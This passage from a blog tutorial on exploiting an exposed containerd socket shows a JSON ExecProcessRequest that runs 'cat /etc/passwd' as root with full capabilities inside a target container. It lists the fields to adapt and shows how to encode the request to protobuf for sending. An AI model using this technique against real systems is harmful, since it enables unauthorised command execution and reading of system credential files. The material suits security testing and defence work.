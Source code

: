 ```
{"container_id": "nginx", "stdin": "/run/containerd/fifo/2573972755/catpwd-stdin", "stdout": "/run/containerd/fifo/2573972755/catpwd-stdout", "stderr": "/run/containerd/fifo/2573972755/catpwd-stderr", "spec": {"type_url": "types.containerd.io/opencontainers/runtime-spec/1/Process", "value": {"user": {"uid": 0, "gid": 0, "additionalGids": [0]}, "args": ["cat", "/etc/passwd"], "env": ["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "NGINX_VERSION=1.14.2-1~stretch", "NJS_VERSION=1.14.2.0.2.6-1~stretch"], "cwd": "/", "capabilities": {"bounding": ["CAP_CHOWN", "CAP_DAC_OVERRIDE", "CAP_DAC_READ_SEARCH", "CAP_FOWNER", "CAP_FSETID", "CAP_KILL", "CAP_SETGID", "CAP_SETUID", "CAP_SETPCAP", "CAP_LINUX_IMMUTABLE", "CAP_NET_BIND_SERVICE", "CAP_NET_BROADCAST", "CAP_NET_ADMIN", "CAP_NET_RAW", "CAP_IPC_LOCK", "CAP_IPC_OWNER", "CAP_SYS_MODULE", "CAP_SYS_RAWIO", "CAP_SYS_CHROOT", "CAP_SYS_PTRACE", "CAP_SYS_PACCT", "CAP_SYS_ADMIN", "CAP_SYS_BOOT", "CAP_SYS_NICE", "CAP_SYS_RESOURCE", "CAP_SYS_TIME", "CAP_SYS_TTY_CONFIG", "CAP_MKNOD", "CAP_LEASE", "CAP_AUDIT_WRITE", "CAP_AUDIT_CONTROL", "CAP_SETFCAP", "CAP_MAC_OVERRIDE", "CAP_MAC_ADMIN", "CAP_SYSLOG", "CAP_WAKE_ALARM", "CAP_BLOCK_SUSPEND", "CAP_AUDIT_READ", "CAP_PERFMON", "CAP_BPF", "CAP_CHECKPOINT_RESTORE"], "effective": ["CAP_CHOWN", "CAP_DAC_OVERRIDE", "CAP_DAC_READ_SEARCH", "CAP_FOWNER", "CAP_FSETID", "CAP_KILL", "CAP_SETGID", "CAP_SETUID", "CAP_SETPCAP", "CAP_LINUX_IMMUTABLE", "CAP_NET_BIND_SERVICE", "CAP_NET_BROADCAST", "CAP_NET_ADMIN", "CAP_NET_RAW", "CAP_IPC_LOCK", "CAP_IPC_OWNER", "CAP_SYS_MODULE", "CAP_SYS_RAWIO", "CAP_SYS_CHROOT", "CAP_SYS_PTRACE", "CAP_SYS_PACCT", "CAP_SYS_ADMIN", "CAP_SYS_BOOT", "CAP_SYS_NICE", "CAP_SYS_RESOURCE", "CAP_SYS_TIME", "CAP_SYS_TTY_CONFIG", "CAP_MKNOD", "CAP_LEASE", "CAP_AUDIT_WRITE", "CAP_AUDIT_CONTROL", "CAP_SETFCAP", "CAP_MAC_OVERRIDE", "CAP_MAC_ADMIN", "CAP_SYSLOG", "CAP_WAKE_ALARM", "CAP_BLOCK_SUSPEND", "CAP_AUDIT_READ", "CAP_PERFMON", "CAP_BPF", "CAP_CHECKPOINT_RESTORE"], "permitted": ["CAP_CHOWN", "CAP_DAC_OVERRIDE", "CAP_DAC_READ_SEARCH", "CAP_FOWNER", "CAP_FSETID", "CAP_KILL", "CAP_SETGID", "CAP_SETUID", "CAP_SETPCAP", "CAP_LINUX_IMMUTABLE", "CAP_NET_BIND_SERVICE", "CAP_NET_BROADCAST", "CAP_NET_ADMIN", "CAP_NET_RAW", "CAP_IPC_LOCK", "CAP_IPC_OWNER", "CAP_SYS_MODULE", "CAP_SYS_RAWIO", "CAP_SYS_CHROOT", "CAP_SYS_PTRACE", "CAP_SYS_PACCT", "CAP_SYS_ADMIN", "CAP_SYS_BOOT", "CAP_SYS_NICE", "CAP_SYS_RESOURCE", "CAP_SYS_TIME", "CAP_SYS_TTY_CONFIG", "CAP_MKNOD", "CAP_LEASE", "CAP_AUDIT_WRITE", "CAP_AUDIT_CONTROL", "CAP_SETFCAP", "CAP_MAC_OVERRIDE", "CAP_MAC_ADMIN", "CAP_SYSLOG", "CAP_WAKE_ALARM", "CAP_BLOCK_SUSPEND", "CAP_AUDIT_READ", "CAP_PERFMON", "CAP_BPF", "CAP_CHECKPOINT_RESTORE"]}, "rlimits": [{"type": "RLIMIT_NOFILE", "hard": 1024, "soft": 1024}], "noNewPrivileges": true}}, "exec_id": "catpwd"}
```

Most of this can be used as a standard boilerplate, you will however need to change the following fields:
* **container_id** - replace with the id of your target container
* **std\*** - replace with fifo pipe filenames for the stdin, stdout and stderr files in an accessible location with filenames relative to the containerd host
* **args** - replace with a JSON formatted list of the command you want to run. We are running `cat /etc/passwd` in this case, expresssed as `["cat", "/etc/passwd"]`
* **env** - replace with the environment variables for the task - Ive copied mine from the container definition as shown in the container creating example above, but this is not essential
* **exec_id** - replace with a string to uniquely identify the task (exec-ids were discussed in [part 1](/2025/02/12/containerd-socket-exploitation-part-1.html#executing-code-in-running-containers) if you want more information)



Create a binary version of the message.


```
$ ./protobuf_parser.py -m tasks_pb2.py -i execprocessrequest.json -o execprocessrequest.bin -t ExecProcessRequest
Written to execprocessrequest.bin
```
